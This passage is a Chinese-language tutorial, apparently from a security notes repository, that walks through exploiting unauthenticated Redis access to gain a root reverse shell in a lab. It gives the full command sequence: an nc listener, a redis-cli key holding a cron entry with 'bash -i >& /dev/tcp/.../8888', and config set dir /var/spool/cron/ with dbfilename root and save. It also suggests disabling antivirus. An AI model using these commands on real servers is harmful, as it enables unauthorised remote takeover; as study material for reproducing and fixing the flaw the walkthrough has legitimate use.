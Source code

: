 
### 4. （进阶）定时任务反弹 shell 获取权限

> 以上，其实 Redis 未授权访问产生的原理与造成的危害已经显而易见了。但是，上面最终仅仅是实现了在目标机器中创建一个文件并写入了一些内容，而可造成的危害远不仅于此... :see_no_evil:

> 既然可以创建文件，并写入文本，那说明，其实已经可以让目标机器执行一些自定义指令了，可以尝试实现远控。

1. 在本机开启一个监听端口 `8888` （这个端口随便定义，只要不冲突就行）

	- `nc -lvp 8888` 开始监听 `8888` 端口
		- `nc` 是 `netcat`工具的命令，大多数 `linux` 系统自带 `netcat`， windows 机器可以在官网（ `https://eternallybored.org/misc/netcat/` ）下载，记得关闭杀软或者加入白名单。
	- 如图
	![](./images/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE/a38f7afb966942028692ff5e3f559b3a.png)

2. 重新打开一个命令行窗口（监听窗口不要关），按照上面攻击复现的步骤 1 ~ 3，在目标机器的定时任务中写入反弹`shell`脚本，并等待其执行（执行成功后，监听窗口会有变化）。

	-  连接 `redis`。（`133` 是我的 redis 服务器）
		- `redis-cli.exe -h 192.168.136.133`
	- 写入键值对，值为定时任务，1 分钟后执行反弹 `shell` 命令
		- `set x "\n\n* * * * * bash -i >& /dev/tcp/192.168.136.1/8888 0>&1\n\n"`
		- `\n` 是换行符，目的是为了与之前已经存在的定时任务分行
		- `bash -i >& /dev/tcp/192.168.136.1/8888 0>&1` 是最基本的 `bash` 反弹连接命令，`136.1` 是我本机的 ip 地址，`8888` 是上一步中设置的监听端口。
	- 修改 `redis` 持久化存储目录和文件名，触发持久化（`config set` 是动态持久化，仅在当前窗口生效，窗口关闭后需要重新设置）
		- `config set dir /var/spool/cron/`
		- `config set dbfilename root`
		- `save`
	- 过程如图
